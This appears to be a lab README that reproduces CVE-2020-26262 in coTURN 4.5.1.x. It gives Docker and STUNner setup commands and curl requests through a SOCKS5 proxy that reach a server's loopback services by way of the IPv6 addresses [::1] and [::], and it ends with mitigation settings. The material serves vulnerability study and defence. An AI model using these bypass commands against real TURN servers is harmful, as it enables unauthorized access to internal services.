



# Relay Abuse
- Vulnerable component: coTURN server
- Affected version: 4.5.1.x
- CVE ID: [CVE-2020-26262](https://nvd.nist.gov/vuln/detail/CVE-2020-26262)

## Description
In this scenario, after creating a socks5 proxy to the TURN server, it is possible using specific HTTP GET requests to access the loopback interface of the server.

## How to reproduce the issue
**Note**: First, update the TURN server's IP address with you machine's IP in ```docker-compose.yaml``` (stunner container).

The <i>coTURN</i> container is started automatically with the following command:
```bash
turnserver -v --user=username1:password1
```
So its behavior can be observed by following the logs:
```bash
docker logs coturn --follow
```
The <i>STUNner</i> container is started automatically with the following command:
```bash
stunner socks --turnserver 192.168.1.50:3478 --protocol tcp --username username1 --password password1 --listen 0.0.0.0:9999
```
This command creates a `socks5` server connected to the TURN server. It uses TCP as the protocol and the same credentials used to start the coTURN server; it listens on `0.0.0.0:9999`.

So its behavior can be observed by following the logs:
```bash
docker logs stunner --follow
```

### Step 1: Start HTTP server on coturn loopback
Access the <i>coturn</i> container and start a web server on the IPv6 loopback interface:
```bash
docker exec -it coturn sh
python3 -m http.server 8000 --bind ::1
```
Keep this terminal open.

### Step 2: Exploit the vulnerability
In another terminal inside the stunner container, test the access control bypass:

**Test 1 - Standard loopback (blocked):**
```bash
docker exec -it stunner sh
curl -x socks5h://127.0.0.1:9999 http://127.0.0.1:8000
```
This request is **blocked** (coTURN correctly blocks requests toward standard loopback addresses):



**Test 2 - IPv6 loopback bypass (VULNERABLE):**
```bash
curl -x socks5h://127.0.0.1:9999 'http://[::1]:8000/'
```
This request **succeeds** - the loopback protection is bypassed using IPv6 loopback address `[::1]`:



**Test 3 - IPv6 wildcard bypass (VULNERABLE):**
```bash
curl -x socks5h://127.0.0.1:9999 'http://[::]:8000/'
```
This also **succeeds** - using IPv6 wildcard address `[::]` also bypasses the protection:



**Note:** The bypass using `0.0.0.0` may not work reliably on all systems due to kernel-specific TCP connection behavior.
## Mitigations
- Update to version 4.5.2 or later (patched version).
- In the server configuration file, add the following lines to block vulnerable address ranges:
  
  ```
  denied-peer-ip=0.0.0.0-0.255.255.255
  denied-peer-ip=::
  denied-peer-ip=::1
  ```
- If IPv6 is not required, disable it by binding coturn only to IPv4 addresses.

## Credits
This vulnerability was discovered by [Enable Security](https://www.enablesecurity.com/).